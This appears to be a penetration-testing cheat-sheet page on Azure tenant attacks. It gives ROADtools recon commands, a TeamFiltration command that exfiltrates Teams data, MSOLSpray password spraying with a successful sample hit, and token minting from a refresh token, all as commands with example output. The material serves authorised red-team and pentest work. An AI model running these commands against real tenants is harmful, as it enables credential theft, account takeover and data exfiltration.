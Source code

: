 ```yaml
---
title: "Azure Enum"
date: 2025-2-21
tags: ["Cloud", "Azure", "Password Spraying", "Enumeration", "Microsoft", "Windows", "Reconnaissance"]
---
```


### Recon

{{< tab set1 tab1 >}}ROADTools{{< /tab >}}
{{< tab set1 tab2 >}}TeamFiltration{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Authenticate

```console
roadrecon auth -u '<USER>' -p '<PASSWORD>'
```

```console {class="sample-code"}
┌──(venv)─(kali㉿kali)-[~]
└─$ roadrecon auth -u 'apple.seed@example.com' -p 'Test1234'
Tokens were written to .roadtools_auth
```

#### 2. Info Gathering

```console
roadrecon gather
```

```console {class="sample-code"}
┌──(venv)─(kali㉿kali)-[~]
└─$ roadrecon gather                                                       
Starting data gathering phase 1 of 2 (collecting objects)
Starting data gathering phase 2 of 2 (collecting properties and relationships)
ROADrecon gather executed in 12.27 seconds and issued 1152 HTTP requests.
```

#### 3. Explore the Data

```console
roadrecon gui
```

```console {class="sample-code"}
┌──(venv)─(kali㉿kali)-[~]
└─$ roadrecon gui   
 * Serving Flask app 'roadtools.roadrecon.server'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://127.0.0.1:5000
Press CTRL+C to quit
```

<small>*Ref: [ROADTools](https://github.com/dirkjanm/ROADtools)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Data Exfiltration

```console
./TeamFiltration --roadtools .roadtools_auth --exfil --teams --outpath <OUTPUT_PATH>
```

<small>*Ref: [TeamFiltration](https://github.com/Flangvik/TeamFiltration)*</small>

{{< /tabcontent >}}

---

### Password Spraying

> <strong>BE VERY CAREFUL NOT TO LOCKOUT ACCOUNTS!</strong>

{{< tab set2 tab1 >}}MSOLSpray{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Import Module

```console
Import-Module MSOLSpray.ps1
```

#### 2. Run

```console
Invoke-MSOLSpray -UserList <USERS_FILE> -Password
```

```console {class="sample-code"}
┌──(kali㉿kali)-[/home/kali/Desktop/MSOLSpray]
└─PS> Invoke-MSOLSpray -UserList .\users.txt -Password Test1234                                                                                                                                         
[*] There are 10 total users to spray.
[*] Now spraying Microsoft Online.                                                                                                                                                                                  
[*] Current date and time: 02/20/2025 14:48:11                                                                                                                                                                      
[*] SUCCESS! apple.seed@example.com : Test1234
```

<small>*Ref: [MSOLSpray](https://github.com/dafthack/MSOLSpray)*</small>

{{< /tabcontent >}}

---

### Generate Token with Refresh Token

{{< tab set3 tab1 >}}ROADTools{{< /tab >}}
{{< tabcontent set3 tab1 >}}

```console
roadtx gettokens --refresh-token '<SECRET>' -c '<CLIENT_ID>'
```

```console {class="sample-code"}
┌──(venv)─(kali㉿kali)-[~]
└─$ roadtx gettokens --refresh-token '1.Aa8AA---[SNIP]---zt4WQ' -c '04b07---[SNIP]---f7b46'
Requesting token for resource https://graph.windows.net
Tokens were written to .roadtools_auth
```

<small>*Ref: [ROADTools](https://github.com/dirkjanm/ROADtools)*</small>

{{< /tabcontent >}}
